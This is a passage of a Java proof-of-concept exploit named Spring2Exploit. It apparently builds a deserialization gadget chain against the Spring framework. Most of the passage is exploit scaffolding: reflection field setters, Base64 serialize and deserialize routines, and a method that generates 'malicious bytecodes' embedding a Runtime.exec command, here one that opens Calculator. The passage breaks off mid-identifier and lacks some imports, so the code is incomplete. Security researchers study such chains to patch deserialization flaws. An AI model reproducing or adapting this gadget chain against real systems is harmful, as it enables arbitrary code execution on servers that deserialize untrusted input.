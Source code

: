 ```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 8:38 pm
 */
public class Spring2Exploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static Object templatesImpl() throws Exception {

        // Generate malicious bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTran
slot.class));
```